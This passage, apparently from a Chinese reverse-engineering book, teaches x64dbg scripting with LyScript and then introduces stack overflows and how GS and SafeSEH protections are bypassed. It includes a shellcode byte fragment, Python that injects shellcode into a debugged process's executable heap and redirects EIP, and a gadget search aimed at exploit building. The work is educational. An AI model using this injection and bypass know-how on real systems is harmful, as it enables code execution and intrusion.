我们继续完善这个功能，通过使用`get_disasm_one_code()`获取到堆栈的反汇编代码，并以此来进行更多的判断形势，如下代码中只需要增加反汇编一行功能即可。
```Python
if __name__ == "__main__":
    dbg = MyDebug()

    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    for index in range(0,10):

        # 默认返回有符号数
        stack_address = dbg.peek_stack(index)

        # 反汇编一行
        dasm = dbg.get_disasm_one_code(stack_address)

        # 根据地址得到模块基址
        if stack_address <= 0:
            mod_base = 0
        else:
            mod_base = dbg.get_base_from_address(long_to_ulong(stack_address))

        print("stack => [{}] addr = {:10} base = {:10} dasm = {}".format(index, hex(long_to_ulong(stack_address)),hex(mod_base), dasm))

    dbg.close()
```

运行上代码，将自动扫描前十行堆栈中的反汇编指令，并输出如下图所示的功能；



如上图我们可以得到堆栈处的反汇编参数，但如果我们需要检索堆栈特定区域内是否存在返回到模块的地址，该如何实现呢？

该功能的实现其实很简单，首先需要得到程序全局状态下的所有加载模块的基地址，然后得到当前堆栈内存地址内的实际地址，并通过实际内存地址得到模块基址，对比全局表即可拿到当前模块是返回到了哪个模块的。
```Python
if __name__ == "__main__":
    dbg = MyDebug()

    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    # 得到程序加载过的所有模块信息
    module_list = dbg.get_all_module()

    # 向下扫描堆栈
    for index in range(0,10):

        # 默认返回有符号数
        stack_address = dbg.peek_stack(index)

        # 反汇编一行
        dasm = dbg.get_disasm_one_code(stack_address)

        # 根据地址得到模块基址
        if stack_address <= 0:
            mod_base = 0
        else:
            mod_base = dbg.get_base_from_address(long_to_ulong(stack_address))

        # print("stack => [{}] addr = {:10} base = {:10} dasm = {}".format(index, hex(long_to_ulong(stack_address)),hex(mod_base), dasm))
        if mod_base > 0:
            for x in module_list:
                if mod_base == x.get("base"):
                    print("stack => [{}] addr = {:10} base = {:10} dasm = {:15} return = {:10}"
                          .format(index,hex(long_to_ulong(stack_address)),hex(mod_base), dasm,
                                  x.get("name")))

    dbg.close()
```

运行如上代码片段，则会输出如下图所示的堆栈返回位置；



### 4.9 内存处理与差异对比

LyScript 插件中针对内存读写函数的封装功能并不多，只提供了最基本的`内存读取`和`内存写入`系列函数的封装，本章将继续对API接口进行封装，实现一些在软件逆向分析中非常实用的功能，例如ShellCode代码写出与置入，内存交换，内存区域对比，磁盘与内存镜像比较，内存特征码检索等功能，学会使用这些功能对于后续漏洞分析以及病毒分析都可以起到事半功倍的效果，读者应重点关注这些函数的使用方式。

#### 4.9.1 实现ShellCode的灵活注入

Shellcode 是一种特殊类型的恶意代码，通常用于利用系统漏洞、执行恶意软件等攻击性行为。Shellcode 通常是一段二进制代码，没有可执行文件头，并且设计用于利用操作系统的特定漏洞，从而使攻击者能够获得对系统的控制或执行其他恶意操作。

由于 `Shellcode` 通常是在内存中执行的，因此它不需要像可执行文件一样拥有完整的文件结构。攻击者通常通过利用漏洞将`Shellcode`注入到受攻击系统的进程中，并使其在内存中执行，从而达到攻击目的。由于`Shellcode`是一种非常灵活的攻击工具，攻击者可以使用它来执行各种攻击行为，例如提权、执行远程命令、下载恶意软件等。因此，`Shellcode`已成为黑客和攻击者的常用工具之一。

通常读者应该自行准备好如下文本案例中所规范的`ShellCode`格式，这类格式通常经过处理后即可直接注入到远程进程内。
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x31\xff\x8b\x72\x28"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x50\x8b\x48\x18"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
```

接着笔者将带大家实现一个将文件内的`ShellCode`注入到进程远程堆空间内的案例，既然要注入到远程堆中，那么第一步则是通过`create_alloc(1024)`在对端开辟一段堆空间，如果读者需要让该空间可被执行则需要调用`set_local_protect(address,32,1024)`将该地址设置为`32`也就是读写执行，设置长度为`1024`字节，接着通过`read_shellcode()`函数从文本中读取ShellCode代码，并作压缩处理，最后通过循环`write_memory_byte`写内存的方式将其逐字节写出，总结起来核心代码如下所示；
```Python
from LyScript32 import MyDebug

# 将shellcode读入内存
def read_shellcode(path):
    shellcode_list = []
    with open(path, "r", encoding="utf-8") as fp:
        for index in fp.readlines():
            shellcode_line = index.replace('"', "").replace(" ", "").replace("\n", "").replace(";", "")
            for code in shellcode_line.split("\\x"):
                if code != "" and code != "\\n":
                    shellcode_list.append("0x" + code)
    return shellcode_list

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    # 开辟堆空间
    address = dbg.create_alloc(1024)
    print("开辟堆空间: {}".format(hex(address)))
    if address == False:
        exit()

    # 设置内存可执行属性
    dbg.set_local_protect(address, 32, 1024)

    # 从文本中读取shellcode
    shellcode = read_shellcode("c://shellcode.txt")

    # 循环写入到内存
    for code_byte in range(0, len(shellcode)):
        bytef = int(shellcode[code_byte], 16)
        dbg.write_memory_byte(code_byte + address, bytef)

    # 设置EIP位置
    dbg.set_register("eip", address)

    input()
    dbg.delete_alloc(address)

    dbg.close()
```

运行这段程序，则读者应该能看到如下图所示的输出结果，这说明我们的数据已经写出到对端堆中了；



而有时我们还需要将这段代码反写，将一段我们挑选好的指令集保存到本地，此时就需要使用`read_memory_byte`依次循环读入数据，并动态写出到文件中，代码如下所示；
```Python
from LyScript32 import MyDebug

# 将特定内存保存到文本中
def write_shellcode(dbg,address,size,path):
    with open(path,"a+",encoding="utf-8") as fp:
        for index in range(0, size - 1):
            # 读取机器码
            read_code = dbg.read_memory_byte(address + index)

            if (index+1) % 16 == 0:
                print("\\x" + str(read_code))
                fp.write("\\x" + str(read_code) + "\n")
            else:
                print("\\x" + str(read_code),end="")
                fp.write("\\x" + str(read_code))

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    eip = dbg.get_register("eip")
    write_shellcode(dbg,eip,128,"d://shellcode.txt")
    dbg.close()
```

如上代码运行后，并可将EIP位置出的指令集前128字节动态写出到`d://shellcode.txt`文件内，输出效果图如下图所示；



#### 4.9.2 内存区域交换与对比

区域交换的原理是通过第三方变量依次交换内存两端的数据，例如将如下图中的`0x5B0010`与`0x5B0070`的前四个字节进行交换，则可调用`memory_xchage(dbg, 5963792,5963792,4)`传递参数实现，在调用前该内存区域如下图所示；



通过运行如下代码片段，则可实现数据交换。
```Python
from LyScript32 import MyDebug

# 交换两个内存区域
def memory_xchage(dbg,memory_ptr_x,memory_ptr_y,bytes):
    ref = False
    for index in range(0,bytes):
        # 读取两个内存区域
        read_byte_x = dbg.read_memory_byte(memory_ptr_x + index)
        read_byte_y = dbg.read_memory_byte(memory_ptr_y + index)

        # 交换内存
        ref = dbg.write_memory_byte(memory_ptr_x + index,read_byte_y)
        ref = dbg.write_memory_byte(memory_ptr_y + index, read_byte_x)
    return ref

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    eip = dbg.get_register("eip")

    # 内存交换
    flag = memory_xchage(dbg, 5963792,5963888,4)
    print("内存交换状态: {}".format(flag))
    dbg.close()
```

交换后的内存区域如下图所示；



#### 4.9.3 内存与磁盘机器码对比

在某些时候我们还需要对比某个特定程序内存与磁盘之间的数据差异，这类需求的实现前提是实现两个特殊的读写函数，一般而言`get_memory_hex_ascii`函数可用于读出内存中的机器码数据，而`get_file_hex_ascii`则可用于读出磁盘中的机器码数据，将两者最进一步对比从而获取某些字节是否发生了改变。

首先实现`get_memory_hex_ascii`函数，该函数用于从给定的内存地址开始，读取指定长度的二进制数据，并将其转换为十六进制形式输出。具体解释如下：

 - 函数接收三个参数：内存地址address，偏移量offset，和要读取的长度len。
 - 定义变量count用于计算已经读取的字节数，并定义ref_memory_list用于存储读取的数据的十六进制形式。
 - 使用for循环读取指定范围内的二进制数据。
 - 调用dbg.read_memory_byte方法读取内存中的每个字节，并将其赋值给变量char。
 - 将读取的字节的十六进制表示输出到控制台。
 - 将读取的字节的十六进制形式存储到ref_memory_list列表中。
 - 如果已经读取了16个字节，就换行输出。
 - 如果字节的十六进制表示只有一位，则在前面添加一个0以保证两个字符宽度。
 - 最后返回ref_memory_list列表，包含了所有读取字节的十六进制形式。

```Python
# 得到程序的内存镜像中的机器码
def get_memory_hex_ascii(address,offset,len):
    count = 0
    ref_memory_list = []
    for index in range(offset,len):
        # 读出数据
        char = dbg.read_memory_byte(address + index)
        count = count + 1

        if count % 16 == 0:
            if (char) < 16:
                print("0" + hex((char))[2:])
                ref_memory_list.append("0" + hex((char))[2:])
            else:
                print(hex((char))[2:])
                ref_memory_list.append(hex((char))[2:])
        else:
            if (char) < 16:
                print("0" + hex((char))[2:] + " ",end="")
                ref_memory_list.append("0" + hex((char))[2:])
            else:
                print(hex((char))[2:] + " ",end="")
                ref_memory_list.append(hex((char))[2:])
    return ref_memory_list
```

其次实现`get_memory_hex_ascii`函数，该函数用于从给定的文件路径中读取指定长度的二进制数据，并将其转换为十六进制形式输出。具体解释如下：

 - 函数接收三个参数：文件路径path，偏移量offset，和要读取的长度len。
 - 定义变量count用于计算已经读取的字节数，并定义ref_file_list用于存储读取的数据的十六进制形式。
 - 使用with open语句打开指定路径的文件，并使用rb模式以二进制方式读取。
 - 使用fp.seek方法将文件指针移动到指定的偏移量offset处。
 - 使用for循环读取指定长度的二进制数据。
 - 使用fp.read(1)方法读取一个字节的数据，并将其赋值给变量char。
 - 将读取的字节的十六进制表示输出到控制台。
 - 将读取的字节的十六进制形式存储到ref_file_list列表中。
 - 如果已经读取了16个字节，就换行输出。
 - 如果字节的十六进制表示只有一位，则在前面添加一个0以保证两个字符宽度。
 - 最后返回ref_file_list列表，包含了所有读取字节的十六进制形式。

```Python
# 读取程序中的磁盘镜像中的机器码
def get_file_hex_ascii(path,offset,len):
    count = 0
    ref_file_list = []

    with open(path, "rb") as fp:
        # file_size = os.path.getsize(path)
        fp.seek(offset)

        for item in range(offset,offset + len):
            char = fp.read(1)
            count = count + 1
            if count % 16 == 0:
                if ord(char) < 16:
                    print("0" + hex(ord(char))[2:])
                    ref_file_list.append("0" + hex(ord(char))[2:])
                else:
                    print(hex(ord(char))[2:])
                    ref_file_list.append(hex(ord(char))[2:])
            else:
                if ord(char) < 16:
                    print("0" + hex(ord(char))[2:] + " ", end="")
                    ref_file_list.append("0" + hex(ord(char))[2:])
                else:
                    print(hex(ord(char))[2:] + " ", end="")
                    ref_file_list.append(hex(ord(char))[2:])
    return ref_file_list
```

有了这两个函数读者就可以实现依次输出内存与磁盘中的机器码功能，
```Python
import binascii,os,sys
from LyScript32 import MyDebug

# 得到程序的内存镜像中的机器码
def get_memory_hex_ascii(address,offset,len):
    pass

# 读取程序中的磁盘镜像中的机器码
def get_file_hex_ascii(path,offset,len):
    pass

if __name__ == "__main__":
    dbg = MyDebug()

    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    module_base = dbg.get_base_from_address(dbg.get_local_base())
    print("模块基地址: {}".format(hex(module_base)))

    # 得到内存机器码
    memory_hex_byte = get_memory_hex_ascii(module_base,0,100)

    # 得到磁盘机器码
    file_hex_byte = get_file_hex_ascii("d://lyshark.exe",0,100)

    # 输出机器码
    print("\n内存机器码: ",memory_hex_byte)
    print("\n磁盘机器码: ",file_hex_byte)

    dbg.close()
```

如上代码片段的输出效果如下图所示，分别得到该进程的内存与磁盘机器码格式，取前`100`个字节作比较；



至于如何做对比，读者只需要通过`for`循环输出其参数即可得到，这里就不做截图演示了，效果同理；
```Python
    # 输出机器码
    for index in range(0,len(memory_hex_byte)):
        # 比较磁盘与内存是否存在差异
        if memory_hex_byte[index] != file_hex_byte[index]:
            # 存在差异则输出
            print("\n相对位置: [{}] --> 磁盘字节: 0x{} --> 内存字节: 0x{}".
                  format(index,memory_hex_byte[index],file_hex_byte[index]))
    dbg.close()
```

### 4.10 反汇编功能的封装

LyScript 插件提供的反汇编系列函数虽然能够实现基本的反汇编功能，但在实际使用中，可能会遇到一些更为复杂的需求，此时就需要根据自身需要进行二次开发，以实现更加高级的功能。本章将继续深入探索反汇编功能，并将介绍如何实现反汇编代码的检索、获取上下一条代码等功能。这些功能对于分析和调试代码都非常有用，因此是书中重要的内容之一。在本章的学习过程中，读者不仅可以掌握反汇编的基础知识和技巧，还能够了解如何进行插件的开发和调试，这对于提高读者的技能和能力也非常有帮助。

#### 4.10.1 搜索内存机器码特征

首先我们来实现第一种需求，通过`LyScript`插件实现搜索内存中的特定机器码，此功能当然可通过`scan_memory_all()`系列函数实现，但读者希望你能通过自己的理解调用原生API接口实现这个需求，要实现该功能第一步则是需要封装一个`GetCode()`函数，该函数的作用是读取进程数据到内存中。

其中`dbg.get_local_base()`用于获取当前进程内的首地址，而通过`start_address + dbg.get_local_size()`的方式则可获取到该程序的结束地址，当确定了读取范围后再通过`dbg.read_memory_byte(index)`循环即可将程序的内存数据读入，而`ReadHexCode()`仅仅只是一个格式化函数，这段程序的核心代码可以总结为如下样子；

```Python
# 将可执行文件中的单数转换为 0x00 格式
def ReadHexCode(code):
    hex_code = []

    for index in code:
        if index >= 0 and index <= 15:
            #print("0" + str(hex(index).replace("0x","")))
            hex_code.append("0" + str(hex(index).replace("0x","")))
        else:
            hex_code.append(hex(index).replace("0x",""))
            #print(hex(index).replace("0x",""))

    return hex_code

# 获取到内存中的机器码
def GetCode():
    try:
        ref_code = []
        dbg = MyDebug()
        connect_flag = dbg.connect()
        if connect_flag != 1:
            return None

        start_address = dbg.get_local_base()
        end_address = start_address + dbg.get_local_size()

        # 循环得到机器码
        for index in range(start_address,end_address):
            read_bytes = dbg.read_memory_byte(index)
            ref_code.append(read_bytes)

        dbg.close()
        return ref_code
    except Exception:
        return False
```
接着则需要读者封装实现一个`SearchHexCode()`搜索函数，如下这段代码实现了在给定的字节数组中搜索特定的十六进制特征码的功能。

具体而言，函数接受三个参数：Code表示要搜索的字节数组，SearchCode表示要匹配的特征码，ReadByte表示要搜索的字节数。

函数首先获取特征码的长度，并通过一个for循环遍历给定字节数组中的所有可能匹配的位置。对于每个位置，函数获取该位置及其后面`SearchCount`个字节的十六进制表示形式，并将其与给定的特征码进行比较。如果有一位不匹配，则计数器重置为0，否则计数器加1。如果计数器最终等于特征码长度，则说明已找到完全匹配的特征码，函数返回True。如果遍历完整个数组都没有找到匹配的特征码，则函数返回False。
```Python
# 在字节数组中匹配是否与特征码一致
def SearchHexCode(Code,SearchCode,ReadByte):
    SearchCount = len(SearchCode)
    #print("特征码总长度: {}".format(SearchCount))
    for item in range(0,ReadByte):
        count = 0
        # 对十六进制数切片,每次向后遍历SearchCount
        OpCode = Code[ 0+item :SearchCount+item ]
        #print("切割数组: {} --> 对比: {}".format(OpCode,SearchCode))
        try:
            for x in range(0,SearchCount):
                if OpCode[x] == SearchCode[x]:
                    count = count + 1
                    #print("寻找特征码计数: {} {} {}".format(count,OpCode[x],SearchCode[x]))
                    if count == SearchCount:
                        # 如果找到了,就返回True,否则返回False
                        return True
                        exit(0)
        except Exception:
            pass
    return False
```
有了这两段程序的实现流程，那么完成特征码搜索功能将变得很容易实现，如下主函数中运行后则可搜索进程内`search`中所涉及到的机器码，当搜索到后则返回一个状态。
```Python
if __name__ == "__main__":
    # 读取到内存机器码
    ref_code = GetCode()
    if ref_code != False:
        # 转为十六进制
        hex_code = ReadHexCode(ref_code)
        code_size = len(hex_code)

        # 指定要搜索的特征码序列
        search = ['c0', '74', '0d', '66', '3b', 'c6', '77', '08']

        # 搜索特征: hex_code = exe的字节码,search=搜索特征码,code_size = 搜索大小
        ret = SearchHexCode(hex_code, search, code_size)
        if ret == True:
            print("特征码 {} 存在".format(search))
        else:
            print("特征码 {} 不存在".format(search))
    else:
        print("读入失败")
```

由于此类搜索属于枚举类，所以搜索效率会明显变低，搜索结束后则会返回该特征值是否存在的一个标志；



#### 4.10.2 搜索内存反汇编特征

而与之对应的，当读者搜索反汇编代码时则无需自行实现内存读入功能，LyScript插件内提供了`dbg.get_disasm_code(eip,1000)`函数，可以让我们很容易的实现读取内存的功能，如下案例中，搜索特定反汇编指令集，当找到后返回其内存地址；
```Python
from LyScript32 import MyDebug

# 检索指定序列中是否存在一段特定的指令集
def SearchOpCode(OpCodeList,SearchCode,ReadByte):
    SearchCount = len(SearchCode)
    for item in range(0,ReadByte):
        count = 0
        OpCode_Dic = OpCodeList[ 0 + item : SearchCount + item ]
        # print("切割字典: {}".format(OpCode_Dic))
        try:
            for x in range(0,SearchCount):
                if OpCode_Dic[x].get("opcode") == SearchCode[x]:
                    #print(OpCode_Dic[x].get("addr"),OpCode_Dic[x].get("opcode"))
                    count = count + 1
                    if count == SearchCount:
                        #print(OpCode_Dic[0].get("addr"))
                        return OpCode_Dic[0].get("addr")
                        exit(0)
        except Exception:
            pass

if __name__ == "__main__":
    dbg = MyDebug()
    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    # 得到EIP位置
    eip = dbg.get_register("eip")

    # 反汇编前1000行
    disasm_dict = dbg.get_disasm_code(eip,1000)

    # 搜索一个指令序列,用于快速查找构建漏洞利用代码
    SearchCode = [
        ["ret", "push ebp", "mov ebp,esp"],
        ["push ecx", "push ebx"]
    ]

    # 检索内存指令集
    for item in range(0,len(SearchCode)):
        Search = SearchCode[item]
        # disasm_dict = 返回汇编指令 Search = 寻找指令集 1000 = 向下检索长度
        ret = SearchOpCode(disasm_dict,Search,1000)
        if ret != None:
            print("指令集: {} --> 首次出现地址: {}".format(SearchCode[item],hex(ret)))

    dbg.close()
```

如上代码当搜寻到`SearchCode`内的指令序列时则自动输出内存地址，输出效果图如下所示；



#### 4.10.3 获取上下一条汇编指令

LyScript 插件默认并没有提供上一条与下一条汇编指令的获取功能，笔者认为通过亲自动手封装实现功能能够让读者更好的理解内存断点的工作原理，则本次我们将亲自动手实现这两个功能。

在x64dbg中，软件断点的实现原理与通用的软件断点实现原理类似。具体来说，x64dbg会在程序的指令地址处插入一个中断指令，一般是int3指令。这个指令会触发一个软件中断，从而让程序停止执行，等待调试器处理。在插入中断指令之前，x64dbg会先将这个地址处的原始指令保存下来。这样，当程序被调试器停止时，调试器就可以将中断指令替换成原始指令，让程序恢复执行。

为了实现软件断点，x64dbg需要修改程序的可执行代码。具体来说，它会将指令的第一个字节替换成中断指令的操作码，这样当程序执行到这个指令时就会触发中断。如果指令长度不足一个字节，x64dbg会将这个指令转换成跳转指令，跳转到另一个地址，然后在这个地址处插入中断指令。

此外在调试器中设置软件断点时，x64dbg会根据指令地址的特性来判断是否可以设置断点。如果指令地址不可执行，x64dbg就无法在这个地址处设置断点。另外，由于软件断点会修改程序的可执行代码，因此在某些情况下，设置过多的软件断点可能会影响程序的性能。

> 读者注意：实现获取下一条汇编指令的获取，需要注意如果是被命中的指令，则此处应该是`CC断点`占用一个字节，如果不是则正常获取到当前指令即可。

 - 1.我们需要检查当前内存断点是否被命中，如果没有命中则说明，此处需要获取到原始的汇编指令长度，然后与当前eip地址相加获得。
 - 2.如果命中了断点，则此处又会两种情况，如果是用户下的断点，则此处调试器会在指令位置替换为`CC`断点，也就是汇编中的`init`停机指令，该指令占用1个字节，需要`eip+1`得到。而如果是系统断点，EIP所停留的位置，则我们需要正常获取当前指令地址，此处调试器没有改动汇编指令，仅仅只下了异常断点。

```Python
from LyScript32 import MyDebug

# 获取当前EIP指令的下一条指令
def get_disasm_next(dbg,eip):
    next = 0

    # 检查当前内存地址是否被下了绊子
    check_breakpoint = dbg.check_breakpoint(eip)

    # 说明存在断点，如果存在则这里就是一个字节了
    if check_breakpoint == True:

        # 接着判断当前是否是EIP，如果是EIP则需要使用原来的字节
        local_eip = dbg.get_register("eip")

        # 说明是EIP并且命中了断点
        if local_eip == eip:
            dis_size = dbg.get_disasm_operand_size(eip)
            next = eip + dis_size
            next_asm = dbg.get_disasm_one_code(next)
            return next_asm
        else:
            next = eip + 1
            next_asm = dbg.get_disasm_one_code(next)
            return next_asm
        return None

    # 不是则需要获取到原始汇编代码的长度
    elif check_breakpoint == False:
        # 得到当前指令长度
        dis_size = dbg.get_disasm_operand_size(eip)
        next = eip + dis_size
        next_asm = dbg.get_disasm_one_code(next)
        return next_asm
    else:
        return None

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    eip = dbg.get_register("eip")

    next = get_disasm_next(dbg,eip)
    print("下一条指令: {}".format(next))

    prev = get_disasm_next(dbg,4584103)
    print("下一条指令: {}".format(prev))

    dbg.close()
```

如上代码则是显现设置断点的核心指令集，读者可自行测试是否可读取到当前指令的下一条指令，其输出效果如下图所示；



> 读者注意：获取上一条汇编指令时，由于上一条指令的获取难点就在于，我们无法确定当前指令的上一条指令到底有多长，所以只能用笨办法，逐行扫描对比汇编指令，如果找到则取出其上一条指令即可。

```Python
from LyScript32 import MyDebug

# 获取当前EIP指令的上一条指令
def get_disasm_prev(dbg,eip):
    prev_dasm = None
    # 得到当前汇编指令
    local_disasm = dbg.get_disasm_one_code(eip)

    # 只能向上扫描10行
    eip = eip - 10
    disasm = dbg.get_disasm_code(eip,10)

    # 循环扫描汇编代码
    for index in range(0,len(disasm)):
        # 如果找到了,就取出他的上一个汇编代码
        if disasm[index].get("opcode") == local_disasm:
            prev_dasm = disasm[index-1].get("opcode")
            break

    return prev_dasm

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    eip = dbg.get_register("eip")

    next = get_disasm_prev(dbg,eip)
    print("上一条指令: {}".format(next))

    dbg.close()
```

运行后即可读入当前EIP的上一条指令位置处的反汇编指令，输出效果如下图所示；




## 第五篇：远程栈溢出分析与利用

在黑客安全圈子中，基于内存攻击技术的攻击手段在随着时代的变化而不断发展着，内存攻击是指通过利用软件的安全漏洞，构造恶意的输入，从而使正常程序造成拒绝服务或者是远程获得控制权，内存攻击技术中最先登上历史舞台的就是缓冲区溢出漏洞，时至今日能够被广泛利用的并具有较大破坏性的高危漏洞（CVE）几乎都属于缓冲区溢出。

### 5.1 缓冲区溢出与攻防博弈

首先读者应该明白`缓冲区`溢出（Buffer Overflow），它分为`栈溢出`与`堆溢出`，此类`漏洞`的原理是，程序由于缺乏对缓冲区的`边界`进行合理化的`检测`而引起的一种异常行为，通常是程序存在`过滤不严格`的输入点，通过这些输入点攻击者可以向程序中写入超过了程序员预先定义好的缓冲边界，从而覆盖了相邻的内存区域，造成程序中的`变量覆盖`，甚至控制CPU中的`EIP寄存器`指针，从而造成程序的非预期行为，而像`C/C++`程序中本身就缺乏内在的内存安全分配与管理，因此缓冲区溢出漏洞大部分都出现在编译型语言中。

缓冲区溢出攻击，内存攻击技术还包括以下攻击方式：

 - 栈溢出攻击：与缓冲区溢出攻击类似，但是攻击者利用的是程序的栈空间。
 - 堆溢出攻击：攻击者利用程序中堆的分配方式中存在的漏洞，向堆中写入恶意代码，从而控制程序的执行流程。
 - 格式化字符串攻击：利用程序对格式化字符串的处理不当，向内存中写入恶意代码。
 - 内核攻击：利用内核漏洞，攻击内核模块，获取系统权限。
 - 内存映射文件攻击：攻击者通过访问内存映射文件，可以修改文件的内容，从而导致程序崩溃或执行恶意代码。

以上这些攻击手段都可以利用软件中的漏洞，从而使程序发生异常，控制程序执行流程，进而实现攻击者的恶意目的。为了避免内存攻击，软件开发者需要注意代码的安全性，防范漏洞的产生。

本章我们将具体探讨远程栈溢出的挖掘与利用技术，栈溢出是缓冲区溢出中最为常见的一种攻击手法，其原理是，程序在运行时栈地址是由操作系统来负责维护的，在我们调用函数时，程序会将当前函数的下一条指令的地址压入栈中，而函数执行完毕后，则会通过ret指令从栈地址中弹出压入的返回地址，并将返回地址重新装载到EIP指令指针寄存器中，从而继续运行，然而将这种控制程序执行流程的地址保存到栈中，必然会给栈溢出攻击带来可行性。

在大致弄清楚缓冲区溢出攻击之后，我这里总结了攻防双方的对抗博弈过程，攻击者与防御者的对抗博弈斗争从来都没有停止过，在大环境下防御始终落后于攻击，但不论如何正是因为有攻防双方的对抗，才使得系统安全水平呈现螺旋式上升的态势，如下是攻防双方的对抗过程总结：

首先在当前的环境下，微软的内存保护机制大致分为以下几种：

> 1.堆栈缓冲区溢出检测保护GS (编译器)
> 2.安全结构化异常处理保护 Safe SEH
> 3.堆栈 SEH 覆盖保护 SEHOP
> 4.地址空间布局随机化保护 ASLR
> 5.堆栈数据执行保护 DEP

#### 5.1.1 GS堆栈缓冲区溢出检测保护

**保护机制实现原理**

GS（/GS）是微软针对缓冲区溢出攻击提出的一种保护机制，全称为`"Buffer Security Check"`，也称为`"Stack Buffer Overflow Detection"`。该保护机制是通过编译器进行限制的，它在程序运行时会对程序使用的栈空间进行检测，以便及早发现缓冲区溢出攻击，并在攻击发生时触发异常处理程序，从而避免攻击成功。

GS保护机制是通过向代码中插入额外的安全检查代码来实现的。具体来说，编译器会在程序的函数调用前后分别插入一个称为`"Prolog"`和`"Epilog"`的代码段，在这些代码段中会包含一些额外的栈空间检测代码。这些检测代码会在函数调用时检测栈空间是否被篡改，如果检测到异常情况，就会触发异常处理程序，从而避免攻击成功。

GS保护机制是微软堆栈检测仪概念的具体实现，从`Visual Studio`系列的编译器上就加入了`GS保护机制`且默认开启，操作系统从`WindowsXP`开始就已经全面支持该选项了。GS保护机制可以帮助程序员在编写代码时检测缓冲区溢出漏洞，从而提高程序的安全性。然而，GS保护机制并不是万能的，它只能检测部分缓冲区溢出攻击，而无法检测所有的攻击。因此，还需要其他的安全措施来提高程序的安全性。

**如何绕过该保护**

实际上`GS保护`机制并没有保护存放在栈上的`SEH`异常处理结构，因此，如果能够写入足够的数据来覆盖栈上的`SEH`记录，并在函数收场白和`Cookie`检测之前触发`SEH`异常，那么将会`绕过Cookie`的检查从而去执行我们构建好的异常处理例程。

SEH（Structured Exception Handling）是Windows操作系统提供的一种异常处理机制，类似于`C++`中的`try-catch`语句，它用于处理程序中的异常情况。在Windows操作系统中，SEH信息是存储在栈上的，因此可以被利用来进行缓冲区溢出攻击。

SEH Overwrite攻击的基本思路是利用缓冲区溢出漏洞，将恶意代码写入`SEH`记录中，从而覆盖`SEH`处理程序的返回地址，从而控制程序的执行流程。攻击者可以通过修改`SEH`记录中的指针，将其指向自己构造的恶意代码，从而实现任意代码执行。由于`GS保护机制`并没有保护存放在栈上的SEH异常处理结构，攻击者可以利用这一点来`绕过Cookie`的检查，从而执行恶意代码。

为了防止`SEH Overwrite`攻击，可以采用一些措施来加强程序的安全性。例如，可以使用安全编程实践，如输入验证、缓冲区长度检查等，来防止缓冲区溢出漏洞。此外，还可以使用一些防御措施，如使用栈保护技术（如GS、ASLR、DEP等），以及使用代码审计、反汇编等技术来发现和修复漏洞。综合运用这些措施，可以有效地防止`SEH Overwrite`攻击和其他类型的缓冲区溢出攻击。

#### 5.1.2 SafeSEH安全结构化异常处理保护

**保护机制实现原理**

GS保护缺陷就是可以通过覆盖`SEH结构`实现绕过，随后防守方就在其编译器中加入了`Safe SEH`保护措施，该选项需要在链接时添加 `linker /safessh:yes` 来开启，采用`SEH`句柄验证技术验证堆栈中SEH的合法性，来确保`SEH`结构不会被非法覆盖。

SafeSEH是一种`Microsoft Windows`操作系统提供的安全性机制，用于检测并防止针对`SEH异常`处理结构的攻击。它通过验证SEH处理程序是否在可信的`SEH链表`中来保护程序免受`SEH Overwrite`攻击的影响。

在启用`SafeSEH`的情况下，程序会在运行时验证`SEH`处理程序是否在可信的SEH链表中，如果不在，则会终止程序的执行。要启用`SafeSEH`保护，需要在编译和链接过程中进行相应的设置。在`Visual Studio`中，可以使用`/safeseh`编译器选项和`/link /safeseh`链接器选项来启用`SafeSEH`保护。

使用`SafeSEH`保护可以有效地防止`SEH Overwrite`攻击。然而，一些攻击者可能会使用其他技术来绕过`SafeSEH`保护，例如使用`ROP（Return-Oriented Programming）`技术来构造精心设计的代码片段，以避免触发`SafeSEH`保护。因此，在设计安全应用程序时，应该综合考虑多种防御措施，而不是仅仅依赖于单一的防御措施。

**如何绕过该保护**

为了突破`SefeSEH`的保护，攻击者又找到了新的绕过方式，通过利用进程中未被启用的`SEH`模块，将修改后的`SEH`例程指针指向这些模块中的`(POP/RET)`等一些跳板指令，从而跳转到栈上执行`ShellCode`代码，除此之外还可以将恶意代码布置到堆中，然后修改函数指针指向堆，同样可以绕过。

利用未被启用的`SEH模块`来绕过`SafeSEH保护`机制的一种方法。攻击者可以通过将恶意代码写入堆中，然后将函数指针修改为指向堆中的代码，从而跳转到恶意代码执行。此外，攻击者还可以使用一些跳板指令`（如POP/RET指令）`来绕过`SafeSEH`保护，因为这些指令并不被认为是SEH处理程序。

为了防止这种攻击，可以在堆上实施`堆随机化（heap randomization）`和`地址空间随机化（ASLR）`等技术。堆随机化可以使恶意代码难以找到并利用堆中的内存地址，从而增加攻击者的难度。地址空间随机化则可以使代码段、数据段和堆栈等内存区域的基地址随机化，从而增加攻击者的难度。此外，还可以使用代码签名（code signing）等技术来验证代码的完整性和来源，从而确保代码的可信性。

#### 5.1.3 SEHOP堆栈SEH覆盖保护

**保护机制实现原理**

随后防守方进一步提出了`SEHOP`技术，该技术默认从`Windows Vista`开始支持，而该技术在`Win7-Win8`系统上默认是关闭的，你可以通过注册表开启该选项，该技术的核心原理是在程序运行时验证整个异常处理链表结构的完整性，如果攻击者覆盖了某个异常处理程序，那么该链表将被破坏，从而抛出异常停止执行。

